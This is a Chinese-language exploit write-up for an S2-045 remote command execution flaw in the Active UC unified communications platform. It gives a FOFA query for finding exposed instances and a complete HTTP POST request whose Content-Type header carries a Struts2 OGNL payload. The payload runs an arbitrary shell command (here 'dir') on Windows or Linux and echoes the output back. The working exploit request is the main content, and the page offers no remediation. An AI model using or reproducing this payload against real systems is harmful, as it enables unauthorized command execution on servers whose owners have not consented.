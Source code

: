 # Active UC index.action 远程命令执行漏洞

## 漏洞描述

网动统一通信平台 Active UC index.action 存在S2-045远程命令执行漏洞, 通过漏洞可以执行任意命令

## 漏洞影响

```
Active UC
```

## FOFA

```
title="网动统一通信平台(Active UC)"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101923695.png)



发送如下请求包

```plain
POST /acenter/index.action HTTP/1.1
Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Charsert: UTF-8
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 196

-----------------------------18012721719170
Content-Disposition: form-data; name="pocfile"; filename="text.txt"
Content-Type: text/plain

xxxxxxx
-----------------------------18012721719170
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101923511.png)